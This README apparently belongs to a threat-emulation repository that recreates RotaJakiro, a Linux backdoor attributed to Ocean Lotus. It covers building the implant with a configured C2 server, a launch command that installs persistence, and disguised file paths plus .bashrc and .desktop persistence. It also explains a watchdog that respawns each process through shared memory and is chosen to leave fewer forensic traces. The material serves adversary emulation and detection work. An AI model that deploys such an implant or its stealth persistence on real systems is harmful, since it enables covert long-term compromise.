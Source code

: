## Rota
[RotaJakiro](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)(Rota) is the Linux implant believed to be leveraged by Ocean Lotus. This repo contains the code to emulate the Linux implant based on threat reports listed in the references section below along with reverse engineering efforts by the ATT&CK team.

## Requirements
* Make
* gcc

## For Operators
### Execution
Upon building the artifact, execute the following command to start rota. The following command will create the persistence locations, and copy rota to the appropriate locations on the file system. By killing the "rota-release" initial binary, the watchdog process will then spawn the follow on proceses and connect to the C2 server.

``` sh
nohup ./rota-release&2>/dev/null; sleep 5; pkill rota-release
```


For the emulation plan, place the built version of Rota in the payloads directory with a name of "rota". Assuming the Ocean Lotus git repository is in your home directory, the following command can be executed:
```
cp rota-release ~/ocean-lotus/Resources/payloads/rota
```

## For Developers
### Building
1. Modify Makefile to specify C2 server and C2 port

``` sh
#update Makefile here
C2_SERVER='"10.10.2.228"'
C2_PORT=1443
```

2. Run make to build release/debug executables and an example shared objection for exeuction

``` sh
$> make all
```

* Buidling with Docker (optional)
A Dockerfile is also provided to install a build environment and produce a rota executable. Since Rota is a dynamically compiled ELF binary, this ensure no glibc issues during execution.

``` sh
$> docker build . -t attack:rota; # build the container image
$> docker run --name rota attack:rota; # run the container image to produce the ELF executable
$> docker cp rota:/opt/bin/rota .; # copy rota to local directory
```

Now that you have a built version of rota, follow the documentation in the Emulation plan to copy it to the destintion folder.

### Troubleshooting Docker Builds

If you've already executed a container with the name of "rota", an error similar to the one shown below will be displayed.
``` sh
docker: Error response from daemon: Conflict. The container name "/rota" is already in use by container "7d5835315af678be4499b816b20b137cd76f77987c81c18c50df70a4b819a206". You have to remove (or rename) that container to be able to reuse that name.
See 'docker run --help'.
```

To fix this, either change the name of the container you're running via:

``` sh
$> docker run --name rota2 attack:rota;
```

Or remove the old stopped container via:

``` sh
$> docker rm rota;
```

## Host Artifacts

## Persistence Overview
Upon initial launch of Rota, the binary checks whether or not its running as root, and then takes persistence actions baesd on this result. Non-root execution results in the rota binary being copied to ```$HOME/.gvfsd/profile/gvfsd-helper``` and ```$HOME/.dbus/.sessions/session-dbus```.
Corresponding lock files are also created which prevent's Rota from continously spawning (TODO: Netlab 360 citation here).

Non-root persistence is achieved via a modified ```.Desktop``` file (TODO: TID HERE) along with adding an entry to ```.bashrc```(TODO: TID HERE) which spawns ```gvfsd-helper``` on boot. (TODO: Netlab 360 citation here).

## IPC Overview

During execution, ```gvfsd-helper``` creates shared memory to communicate its pid to another RotaJakiro process, "```session-dbus```". Each process writes its pid to this shared memory location to ensure the other process will re-spawn it, should the process die. This "alive check" is achieved via checking for PID entries within ```/proc/```. If no entry exists, the surviving process will respawn the other.

### IPC Syscalls Explained

The RotaJakiro reports specify the use of shared memory via [POSIX Shared Memory functions](https://man7.org/linux/man-pages/man7/shm_overview.7.html). 
The implementation of Rotajakiro within this repo hereby referred to as "rota", uses ```shmget``` to create a key of ```0x64b2e2```with a memory allocation of 8 bytes.
This key and associated function ```shmget``` were chosen from reverse engineering RotaJakiro sample [0958e1f4c3d14e4de380bda4c5648ab4fa4459ef8f5daaf32bb5f3420217af32](https://www.virustotal.com/gui/file/0958e1f4c3d14e4de380bda4c5648ab4fa4459ef8f5daaf32bb5f3420217af32).
Notably, this function call **does not** create a file within ```/dev/shm/``` whereas ```shm_open``` does.  This limits the presence of additional file artifacts for DFIR professionals.

The function below demonstrates the creation of shared memory with the result being stored in variable shmid.

``` sh
int shmid = shmget(0x64b2e2, 8, IPC_CREAT | 0666);
```

The [ipcs](https://man7.org/linux/man-pages/man1/ipcs.1.html) utility can be used to inspect that the shared memory has been appropriately created.

```
$> ipcs

------ Shared Memory Segments --------
key        shmid      owner      perms      bytes      nattch     status
0x00000000 8          gdev       600        524288     2          dest
0x00000000 16         gdev       600        524288     2          dest
0x0064b2e2 20         gdev       666        8          0
```

To manually remove this key, execute the following command:

``` sh
ipcrm -M 0x0064b2e2
```

The 8 bytes created by ```shmget``` are then used to store both the main C2 process of Rotajakiro "```gvfsd-helper```" and the supplemental watch dog process "```session-dbus```".
The first four bytes store the process id belonging to ```gvfsd-helper```, and the last four store ```session-dbus```'s process id.

``` sh
[ gvfsd-pid ][ session-dbus ] // 8 bytes of memory
```


## References
* [RotaJakiro: A long lived secret backdoor with 0 VT detection](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)
* [RotaJakiro, The Linux version of Ocean Lotus](https://blog.netlab.360.com/rotajakiro_linux_version_of_oceanlotus/)
* [The New and Improved macOS Backdoor from Ocean Lotus](https://unit42.paloaltonetworks.com/unit42-new-improved-macos-backdoor-oceanlotus/)

